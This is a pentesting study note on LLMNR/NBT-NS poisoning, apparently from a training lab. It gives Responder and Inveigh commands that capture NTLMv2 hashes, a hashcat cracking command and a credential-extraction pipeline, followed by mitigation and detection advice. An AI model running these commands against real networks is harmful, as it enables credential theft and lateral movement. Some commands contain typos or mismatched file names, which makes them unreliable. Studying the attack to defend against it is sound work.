 -----
# LLMNR / NBT-NS
-----
- LLMNR (Link Local Multicast Name Resolution) & NBT-NS (NetBIOS Name Service) are the two alternative protocols that hosts use when they fail to resolve DNS. 
- Both allows one host to resolve DNS issues for other hosts within the same local network.
- Both use UDP. LLMNR uses port 5355 while NBT-NS uses port 137
- Flow of attack
	1. Host try to connect to a printer server \\\\print01
	2. There is a typo \\\\printer01 -> DNS fails to resolve
	3. The host will use LLMNR to broadcast to other hosts in the same network, trying to resolve the DNS
	4. Attacker captures the request (by listening to the traffic using Responder, Inveigh or Metasploit), claims to know where \\\\ printer01 is located
	5. The host will send request with authentication data (username and NTLMv2 hashes)
	6. Attackers can crack the hashes or use them to perform relay attacks.

### Responder
- We can use `Responder` on Linux to capture request
```bash
sudo responder -I ens224
```

- Logs and results of Responders run will be stored in ***/user/share/responder/logs***
- From here we can use Hashcat -m 5600 to crack the hashes -> obtain credentials
```bash
hashcat -m 5600 hashes.list rockyou.txt -o cracked-hashes.list
```
- Extract the fields to get user credentials
```bash
cat crack-hashes.list | awk -F ":" '{print $1, $NF}' | sed -e 's/\s\+/:/g' >> credentials.list
```

## Inveigh
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh) Windows PWNBOX, similar to Responder
```bash
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
```

- Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to file
```bash
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOuptut Y 
```

- The PowerShell version is no longer updated. We must compile the C# version to use.
```PowerShell
./Inveigh.exe

HELP to see options for Inveigh
# view unique hashes
GET NTLMV2UNIQUE
# Get usernames
GET NTLMV2USERNAMES
```

-----
# Mitigation
-----
- Mitre ATT&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.
- We can disable LLMNR and NBT-NS
	- We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
	- NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.

- Use PowerShell script to disable NBT-NS  under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following:
```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

- To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

- Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.

-----
# DETECTION
-----
- One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses. [View this blog post](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/)
- Host can be monitored on UDP 5355 and 137, events IDs 4697 and 7045.
- Monitor Registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for changes to the `EnableMulticast` DWORD value. A value of `0` would mean that LLMNR is disabled.